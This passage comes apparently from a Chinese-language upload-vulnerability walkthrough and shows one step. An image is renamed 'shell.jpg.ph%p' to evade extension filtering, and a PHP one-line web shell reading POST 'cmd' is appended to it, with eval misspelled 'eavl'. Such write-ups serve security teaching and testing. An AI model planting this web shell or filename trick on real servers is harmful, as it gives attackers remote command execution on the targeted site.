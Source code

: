     ![](img/20180206-1.jpg)

2. 选择一张正常的图片上传，将上传的文件名修改为`shell.jpg.ph%p`，在文件内容的最后加上shell代码，`<?php @eavl($_POST[cmd]);?>`。当系统将图片内容写入之后，会返回文件地址。如下：

    ![](img/20180206-2.jpg)
